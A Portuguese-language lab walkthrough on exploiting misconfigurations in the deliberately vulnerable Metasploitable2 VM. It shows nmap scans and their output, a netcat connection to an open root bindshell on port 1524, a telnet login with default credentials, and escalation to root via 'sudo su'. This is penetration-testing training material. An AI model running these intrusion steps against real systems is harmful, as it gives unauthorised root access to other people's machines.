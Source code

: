 # Missconfiguration

Não é comum, mas o administrador pode deixar alguma 'brecha' aberta por falta de uma configuralção adequada.

Veja os exemplo do lab metasploit2

## Exemplo 1 - bindshell:

```
nmap -sV 192.168.1.33

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-21 13:42 -03
Nmap scan report for 192.168.1.33
Host is up (0.00021s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
1524/tcp open  bindshell   Metasploitable root shell
...
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:C7:CF:C6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.21 seconds
 ```

Observamos que a porta 1524 está aberta para conexão de uma shell com user root. Se não houver autenticação para a conexão, teremos acesso a conta root e domínio sobre a máquina.

Usando um comando netcat simples:

```
─$ nc 192.168.1.33 1524                                                                          
root@metasploitable:/# 
```

Temos acesso a máquina metasploitable com o user root.

## Exemplo 2 - telnet:

```
$ nmap -sV 192.168.1.33

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-21 15:05 -03
Nmap scan report for 192.168.1.33
Host is up (0.00017s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
...
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:C7:CF:C6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.10 seconds
```
Ao tentar uma conexão via telnet...
```
$ telnet 192.168.1.33
                                                               
Trying 192.168.1.33...
Connected to 192.168.1.33.
Escape character is '^]'.
                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


metasploitable login: 
```
A tela de conexão telnet traz informações de login.
- Username: msfadmin
- Password: msfadmin

```
metasploitable login: msfadmin
Password: 
Last login: Wed Aug 20 20:37:46 EDT 2025 on tty1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:
```
Após logar, podemos escalar o privilégio.

```
msfadmin@metasploitable:~$ sudo su
[sudo] password for msfadmin:
```

A senha já conhecemos: msfadmin

```
root@metasploitable:/home/msfadmin# whoami
root
root@metasploitable:/home/msfadmin# cd /
root@metasploitable:/# ls
bin   cdrom  etc   initrd      lib         media  nohup.out  proc  sbin  sys  usr  vmlinuz
boot  dev    home  initrd.img  lost+found  mnt    opt        root  srv   tmp  var
root@metasploitable:/#
```
Mais uma vez acessamos a conta root da máquina metasploitable.

